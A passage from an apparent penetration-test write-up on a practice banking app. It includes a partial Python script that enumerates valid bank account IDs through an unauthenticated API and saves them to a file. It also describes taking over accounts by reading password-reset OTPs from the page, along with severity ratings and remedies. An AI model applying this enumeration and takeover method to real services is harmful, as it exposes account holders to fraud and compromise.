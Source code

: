 ```python

    try:
        resp = requests.post(url, headers=headers, data=json.dumps(payload), timeout=3)
        data = resp.json()

        # Compare key fields of the failure signature
        if not (
            data.get("status") == FAIL_SIGNATURE["status"]
            and data.get("status_code") == FAIL_SIGNATURE["status_code"]
            and data.get("message") == FAIL_SIGNATURE["message"]
        ):
            print(f"[+] Found response for {bnk_id}: {data}")
            results.append((bnk_id, data))

    except Exception as e:
        print(f"Error for {bnk_id}: {e}")

# Save to file
if results:
    with open("valid_bnk_ids.json", "w") as f:
        json.dump(results, f, indent=2)
    print(f"\n[+] Saved {len(results)} valid entries to valid_bnk_ids.json")
else:
    print("\n[-] No valid BNK IDs found.")
```

This allowed me to programmatically enumerate valid bank account IDs without authentication, simply by exploiting predictable ID formats and weak feedback control in the API. The discovered IDs can be further leveraged in IDOR, phishing, or credential stuffing attacks against the application.

![](/Screenshots/unsafebank//pent/IdsLeak.png)

**Vulnerability Score:**  
This issue rates around **CVSS 6.5 (Medium-High)** due to information leakage that allows attackers to enumerate valid users remotely and easily.

**Remedy:**  
Standardize responses for both valid and invalid user IDs to avoid revealing user existence. Implement rate limiting on password reset requests and consider adding CAPTCHA to prevent automated enumeration attacks.

---
### 3. Password Reset OTPs:

Another critical issue discovered in the forgot password functionality is that once an attacker obtains a valid user ID, changing the password requires only an OTP that is directly displayed as a modal on the web page. This means there is **no secure delivery or verification of the OTP**, and it is exposed openly to anyone requesting it.

Using the previously obtained JSON file containing all user IDs, I was able to easily trigger password resets for any user by simply submitting their ID and retrieving the OTP from the response. This flaw effectively allows an attacker to compromise the entire user base without needing access to the users’ email or phone.
